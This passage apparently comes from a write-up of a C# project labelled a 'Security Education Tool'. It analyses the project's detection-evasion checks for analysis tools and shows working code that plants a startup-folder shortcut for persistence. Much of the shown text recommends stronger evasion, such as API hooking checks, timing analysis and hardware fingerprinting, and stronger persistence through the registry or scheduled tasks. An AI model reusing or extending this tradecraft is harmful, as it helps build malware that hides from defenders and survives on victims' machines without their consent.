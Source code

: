 ```csharp
    return false;
}
```

#### Detection Evasion Analysis:

1. **String Matching**: The current implementation uses simple substring matching, which is easily evaded through process renaming. More robust approaches would examine module hashes, window classes, or process behaviors.

2. **Error Handling**: Try-catch blocks prevent crashes when accessing restricted processes but may create timing discrepancies detectable by advanced anti-anti-detection systems.

3. **Future Enhancement**: Consider more sophisticated detection including API hooking checks, timing analysis, and hardware fingerprinting.

## Persistence Mechanism

The project uses the Windows Script Host to establish persistence:

```csharp
static void InstallForPersistence()
{
    try
    {
        string appPath = Assembly.GetExecutingAssembly().Location;
        string startupPath = Path.Combine(
            Environment.GetFolderPath(Environment.SpecialFolder.Startup),
            "SecurityEducation.lnk");
        
        // Create shortcut in startup folder
        WshShell shell = new WshShell();
        IWshShortcut shortcut = (IWshShortcut)shell.CreateShortcut(startupPath);
        shortcut.TargetPath = appPath;
        shortcut.WorkingDirectory = Path.GetDirectoryName(appPath);
        shortcut.Description = "Security Education Tool";
        shortcut.Save();
    }
    catch (Exception ex)
    {
        // Error handling
    }
}
```

#### Technical Analysis:

1. **User-Space Persistence**: The implementation uses user-level startup folder integration, which only executes when the user logs in and is easily discoverable.

2. **Shell Objects**: Windows Script Host COM objects provide a clean API for shortcut creation without requiring direct file manipulation.

3. **Future Enhancement**: Registry-based or scheduled task persistence would provide greater resilience and administrative privileges execution.
